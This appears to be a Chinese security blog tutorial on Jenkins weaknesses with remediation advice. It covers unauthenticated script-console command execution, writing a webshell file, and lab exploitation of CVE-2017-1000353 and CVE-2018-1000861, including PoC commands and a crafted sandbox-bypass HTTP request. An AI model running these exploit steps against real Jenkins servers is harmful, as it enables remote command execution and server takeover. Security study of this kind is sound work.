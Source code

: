 # Jenkins一些安全问题



#### 漏洞简介及危害
默认情况下 Jenkins面面板中用户可以选择执行脚本界面来操作一些系统层命令,攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务,通过脚本执行行界面从而获取服务器权限。


#### 环境搭建
```bash
# 下载地址： https://www.jenkins.io/download/
# 可以直接下载war包
java -jar jenkins.war    # 运行
# 
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行行行
service jenkinis start    # 开启Jenkins服务

浏览器器访问http://192.168.0.100:8080/
```


#### 未授权访问测试
访问`http://192.168.0.100:8080/manage`可以看到没有任何限制可以直接访问


#### Jenkins未授权访问写shell
1.点击“脚本命令行”
![](http://image.xpshuai.cn/Jenkins_consele.png)

2.执行系统命令
```bash
println "whoami".execute().text
```
 3.利用“脚本命令行”写webshell,(`需要一定的权限且知道网站绝对路径`)，点击运行,写入成功
```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```
![](http://image.xpshuai.cn/Jenkins_cmd.png)

4.访问shell.php， 测试成功
![](http://image.xpshuai.cn/Jenkins_shell.png)



####  CVE-2017-1000353
>这是一个java反序列化漏洞

执行如下命令启动jenkins 2.46.1：
```bash
docker-compose up -d
```
等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

###### 原理
参考：   https://blogs.securiteam.com/index.php/archives/3171

###### 测试
1.生成序列化字符串
```bash
# 参考 https://github.com/vulhub/CVE-2017-1000353
# 首先下载POC生成工具：   https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar

# 执行下面命令，生成字节码文件
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touc /tmp/success" 
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
# 生成jenkins_poc.ser文件，这就是序列化字符串。
```

2.生成jenkins_poc.ser文件，这就是序列化字符串。
```bash
# 下载 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
# Python3执行
python3 exploit.py http://192.168.0.100:8080 jenkins_poc.ser    # 将刚才生成的字节码文件发送给目标
```

3.进入docker容器发现文件创建成功


#### CVE-2018-1000861
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


###### 测试
执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：
```bash
docker-compose up -d
```

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：
```bash
http://192.168.0.100:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

# 请求替换到burp拦截的数据包中
```
数据包如下
```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}} HTTP/1.1
Host: 192.168.0.100:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID.a3c40b9a=node010r4vkf3cix27hr5qd9qvw5y41.node0; screenResolution=1920x1080
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

进入容器: `docker-compose exec jenkins bash`,看到 /tmp/success文件创建成功
![](http://image.xpshuai.cn/Jenkins_poc_ok.png)



#### 配置方面的安全问题
1.允许任意账户注册 带来的安全问题
![](http://image.xpshuai.cn/Jenkins_reg_any.png)
关闭用户注册
![](http://image.xpshuai.cn/Jenkins_reg.png)

2.允许匿名访问带来的问题
建议关闭
![](http://image.xpshuai.cn/Jenkins_nologin.png)




jenkins的日志功能不是很好（可以使用代理，并进行操作的记录）


#### 安全建议
- 使用最新版的jenkins
- 关闭匿名访问
- 关闭用户注册功能
- 用户严格授权
- 最小化插件，相关插件使用最新版
- 使用nginx代理jenkins，不要直接暴露在公网




参考：https://www.secpulse.com/archives/2166.html




---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/jenkins%E4%B8%80%E4%BA%9B%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/  

